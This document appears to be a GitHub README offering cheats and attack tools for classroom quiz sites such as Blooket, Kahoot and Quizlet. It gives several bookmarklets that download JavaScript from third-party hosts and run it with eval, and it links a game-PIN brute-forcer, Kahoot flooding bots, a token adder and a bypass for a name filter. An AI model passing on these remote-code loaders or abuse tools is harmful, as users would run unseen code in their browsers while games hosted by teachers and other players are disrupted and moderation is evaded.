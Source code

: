 # Blooket Hacks and more!
These are hacks for blooket. There are hacks such as give tokens for buying blooks (sadly only 500 per day), and cheats in-game like infinite gold in tower of doom or gold rush! I took cheats from another github repo, revised the code a bit. (There are other hacks if you scroll down)

**If anything isn't working please make a issue after checking with the FAQ: https://github.com/helloieat/Blooket-Hacks-V2/issues**

**scroll down for video tutorial on how to make bookmarklets**

## Mod Menu:
Mod Menu for blooket (Drag the link below to your bookmarks bar):
```
javascript:fetch('https://ieatppplyum.github.io/blooket-hack/index.js').then(r=>r.text()).then(t=>(new Function(t))())
```

To make the mod menu appear click on "Add Injectable", And paste the URLS in that are listed below.

Injectable URL 1: `https://helloieat.github.io/injectables/myrayuo.js` 

Injectable URL 2: `https://helloieat.github.io/injectables/is%20lit.js` 

## Bookmarklets:
```
Blooket hacks can be found here https://github.com/helloieat/blooket-hack-1
```

Bookmarklet tutorial:
https://streamable.com/t4u7i7

1. Make a bookmark (the star on the right side of the url bar if you are using chrome)
2. Click on more at the bottom left corner
3. Delete everything in the url box
4. Type `javascript:`
5. Paste in the code

## Blooket BruteForcer:
BLOOKET FIXED THE JOIN API SO IT ONLY GUESSES GAME PINS. (its super accurate though, only when a lot of games are being hosted).
```
It can be found here https://replit.com/@mikeylmao/Blooket-pass-finder
```

## 24hr Token Adder:
This will automatically gives your account 500 tokens and 300 exp daily
```
It can be found here https://replit.com/@mikeylmao/24hr-token-adder
```

# Other Hacks (Extra)
Mostly websites..

# Kahoot Hacks:
```
[Kaheet] https://pxtrez.com/
[Flooder] https://kaspammer.glitch.me/
[Flooder V2] https://replit.com/@mikeylmao/Kahoot-flood-2
[Kahoot Client] https://a8998w89329w09e09we.herokuapp.com/
[Kahoot Client V2] https://kahot.glitch.me/
```

## Bookmarklets (Click on these before you enter a games ID)

Kahoot Smasher/Flooder (Drag the link below to your bookmarks bar):
```
javascript:fetch('https://thatfrueddued.github.io/kahoot-smasher/Kahoot.js').then(function(response){response.text().then(function(text){eval(text);});});
```

Bad Name Filter Bypass (Drag the link below to your bookmarks bar):
```
javascript:fetch('https://thatfrueddued.github.io/kahoot-smasher/BadNameFilterBypass.js').then(function(response){response.text().then(function(text){eval(text);});});
```

Kahoot Correct Answers (Drag the link below to your bookmarks bar):
```
javascript:fetch("https://raw.githubusercontent.com/pxtrez/kaheet/main/dist/bundle.js" ).then((r) => r.text().then((t) => eval(t)));
```

# Quizlet Hacks:
Works for micromatch and other gamemodes (Drag the link below to your bookmarks bar):
```
javascript:(function()%7B(function() %7Blet x %3D document.createElement("script")%3Bx.src %3D "https%3A%2F%2Fcdn.jsdelivr.net%2Fgh%2FSnowLord7%2Fquizlet%40master%2Findex.js"%3Bx.onload %3D function () %7B x.remove()%3B %7D%3Bdocument.body.appendChild(x)%3B%7D)()%7D)()
```

# Cookie Clicker Hacks:
Shows a mod menu on your screen

Mod Menu V1 (Drag the link below to your bookmarks bar):
```
javascript:(function(){Game.LoadMod('https://rawgit.com/Giovani-Freitag/cookie-clicker-farm/master/cookieClickerFarm.js');})();
```

Mod Menu V2 (Drag the link below to your bookmarks bar):
```
javascript:Game.OpenSesame()
```
Website to play Cookie Clicker if it's blocked: https://ozh.github.io/cookieclicker/

# Nearpod Hacks:
Just finds codes

Nearpod code finder
```
https://replit.com/@milestashaun/nearpod-code-finder
```

# Walmart Version Of Google Classroom:
Sign up and add people to it

Code: rmxIWa
```
https://our-gclassroom.netlify.app/
```

#### Happy hacking :)
